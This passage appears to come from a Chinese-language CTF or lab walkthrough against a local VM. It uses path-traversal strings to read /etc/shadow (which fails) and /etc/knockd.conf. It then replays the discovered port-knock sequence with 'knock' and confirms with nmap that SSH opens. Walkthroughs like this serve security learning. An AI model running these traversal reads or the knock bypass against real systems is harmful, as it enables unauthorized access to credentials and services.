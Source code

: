 ![image-20200115155021258](/assets/images/image-20200115155021258.png)

都加x了,没啥用

再读一下../../../../../../../etc/shadow

读不出来，（想也没有权限。。。。

接下去怎么办呢

我们前面看nmap的时候发现还存在ssh服务

但是处于filter状态，

怎么连上ssh呢

了解到knock这种东西

>knockd 监视一个预定义模式在iptables的日志,
>
>例如一次击中端口6356,一次击中端口63356,两次击中端口9356,
>
>这相当于敲一个关闭的门用一种特殊的暗码来被konckd识别,
>
>konckd 将使用iptables来打开一个预定义端口
>
>例如ssh的22端口在一个预定定义时间.(比如一分钟),如果一个ssh session 在这个时间范围内打开,这个端口会一直保留.直到预定义时间过期后ssh端口被knockd关掉.

可以读到其配置文件 ../../../../../../../etc/knockd.conf

```txt
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
```

所以我们只要这样就可以打开ssh了

```shell
root@kali:~# knock 192.168.31.222 7469 8475 9842 #对应sequence
root@kali:~# nmap -p22 192.168.31.222
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-15 16:09 CST
Nmap scan report for 192.168.31.222
Host is up (0.00031s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:3D:D1:6F (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```
